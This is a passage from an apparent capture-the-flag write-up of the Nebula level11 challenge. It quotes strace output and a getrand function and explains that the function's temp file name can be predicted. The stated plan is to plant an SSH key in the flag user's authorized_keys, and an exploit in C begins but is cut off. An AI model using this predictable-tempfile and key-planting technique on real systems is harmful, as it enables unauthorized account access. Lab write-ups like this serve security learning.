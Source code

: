 ```shell
level11@nebula:~$ python level11.py | strace /home/flag11/flag11
... snip ...
getgid32()                              = 1012
setgid32(1012)                          = 0
getuid32()                              = 1012
setuid32(1012)                          = 0
... snip ...
```

However, we see that the the `setuid32` and `setgid32` calls only happens
*after* the `mmap` happens. This means that we can potentially write to a
flag11 owned file or directory if we can guess the random file that the
`getrand` function generates.

```c
/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();

  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}
```

Looking at the `getrand` function, the file name is relatively predictable as
it consists of a path determined by the `TEMP` environmental variable, the PID
of the calling process and a random number generated by a PRNG seeded with the
current time. On Linux, PID numbers are assigned sequentially on a system wide
basis.

Our aim now is to write a SSH public key to the
`/home/flag11/.ssh/authorized_keys` file. We use `ssh-keygen` to generate a
SSH keypair for the level11 user. Our exploit is written in C to ensure that
our `random` function is the same as the one used in the `flag11` binary.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

void getrand(char **path, int pid, int time)
{
    char *tmp;
    int fd;

```